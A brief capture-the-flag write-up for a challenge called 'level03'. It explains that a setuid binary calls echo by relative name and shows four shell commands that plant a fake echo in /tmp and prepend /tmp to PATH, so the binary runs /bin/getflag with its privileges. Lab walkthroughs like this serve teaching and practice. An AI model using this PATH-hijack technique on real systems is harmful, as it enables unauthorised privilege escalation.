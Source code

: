 # LEVEL03

When you arrive, you can notice a file named `level03` with suid and executable permissions.
`file level03` returns a 32bit ELF executable. If you then execute it, you will get "Exploit me".
Since it is using the echo command, we can exploit it by adding another echo command in some directory, and adding the directory to the PATH variable.

```
echo "/bin/getflag" > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
./level03
```
